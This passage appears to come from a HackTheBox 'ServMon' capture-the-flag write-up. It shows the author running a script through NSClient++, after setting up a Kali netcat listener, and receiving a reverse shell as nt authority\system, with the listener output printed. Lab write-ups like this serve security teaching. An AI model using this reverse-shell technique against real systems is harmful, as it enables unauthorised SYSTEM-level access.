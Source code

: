 ![](attachments/serv_10.png)

I clicked "Run", and ran the script. (Need to setup a listener on Kali ahead)

![](attachments/serv_11.png)

Then, I was able to open a shell as `SYSTEM`.

```bash
┌──(kali㉿kali)-[~/htb/servmon]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.184] 49894
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
```